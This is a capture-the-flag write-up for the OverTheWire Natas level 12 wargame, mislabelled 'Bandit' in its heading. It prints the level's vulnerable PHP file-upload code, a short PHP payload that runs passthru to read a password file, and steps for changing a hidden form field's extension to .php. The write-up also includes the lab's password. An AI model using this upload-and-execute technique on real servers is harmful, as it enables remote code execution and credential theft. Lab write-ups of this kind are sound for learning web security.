



# BANDIT LEVEL 12

```
http://overthewire.org/wargames/natas/natas12.html
```

```
Username: natas12
Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
URL:      http://natas12.natas.labs.overthewire.org
```


### SOLUTION

#### CODE INSPECTION

```
<html> 
<head> 
<!-- This stuff in the header has nothing to do with the level --> 
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" /> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" /> 
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script> 
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script> 
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script> 
<script>var wechallinfo = { "level": "natas12", "pass": "<censored>" };</script></head> 
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


    if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

Looking through the source code:

- we have a form that allows us to upload a file from our computer
- the program stores the file to an `/upload` directory with a pseudo-random file name

Testing the application out, we find that upon successful upload it presents a
link to the uploaded file.


An important thing to notice is that the filename supplied to the webapp is
NOT our filename, but rather it is a pseudo-random string using the same
`genRandomString()` function appended with `.jpg`.. hence the displayed link
will ALWAYS show as a `.jpg`.

```
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

If we are able to manipulate this filename extension to something like `.php`
and upload a file like so..

```
$ cat exploit.php
<?

passthru("echo cat /etc/natas_webpass/natas13");
passthru("cat /etc/natas_webpass/natas13");

?>
```

#### EXPLOIT

With Chrome Developer Tools, we can modify the hidden form `input` element
which controls the `filename` to use `.php` as the extension instead of `.jpg`.



.. and uploading the file yields a link with our desired `.php` extension..



.. which we can now click in our browser and our PHP code will run on the
server yielding the password to us.


